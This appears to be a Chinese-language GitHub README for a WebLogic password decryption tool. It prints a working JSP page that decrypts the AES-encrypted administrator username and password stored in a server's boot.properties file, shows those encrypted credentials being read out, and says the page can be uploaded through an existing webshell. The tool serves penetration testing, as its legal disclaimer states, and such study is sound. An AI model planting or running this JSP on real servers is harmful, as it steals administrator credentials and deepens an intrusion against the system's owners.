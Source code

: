 ## jsp在线解密weblogic，加强判断，get传参

## USAGE

`x.jsp?p=AES密码`

### Example:

```
root@0ba3ae6d6212:~# cat ./Oracle/Middleware/user_projects/domains/base_domain/servers/AdminServer/security/boot.properties
# Generated by Configuration Wizard on Mon May 16 07:39:16 UTC 2016

username={AES}xdwPe62ds+jcPCQwwLn/VR3fI0e9ZGkFz96ZBqmvRpY=
password={AES}dv/eNBsyg5GcDUbAKaQRheDZhzVk9yiTYVpXlGt9wEU=

root@0ba3ae6d6212:~# 
```

![](./decode.png)

```
<%@page pageEncoding="utf-8" %>
<%@page import="weblogic.security.internal.*,weblogic.security.internal.encryption.*" %>
<%
    EncryptionService es = null;
    ClearOrEncryptedService ces = null;
    String s = request.getParameter("p");
    es = SerializedSystemIni.getEncryptionService();
    if (es == null) {
        out.println("Unable to initialize encryption service");
        return;
    }
    ces = new ClearOrEncryptedService(es);
    if (s != null && s != ces.decrypt(s)) {
        out.println("[+] Data= " + s + "<br/>");
        out.println("[+] Decode_Data= " + ces.decrypt(s));
    } else {
        out.println("Decode Fail !");
    }
%>
```


# WebLogicPasswordDecryptorUi
weblogic解密JAVA UI版,欢迎提交BUG
![](20180313143338-76b76fb0-2688-1.png)



## WeblogicPassword 在线解密(转)

>  原文：https://xz.aliyun.com/t/2149

如有webshell可进行在线解密
把```weblogicdecryptor.jsp```放入服务器进行访问，s="" 中填写 weblogic 的加密密码，可在 boot.properties 文件中找到。默认路径为```../../../Server/security/boot.properties```

![](20180313143329-71963f48-2688-1.png)

## 法律
> 该项目仅供合法的渗透测试以及爱好者参考学习，请各位遵守《中华人民共和国网络安全法》以及相应地方的法律，禁止使用该项目进行违法操作，否则自行承担相关责任！
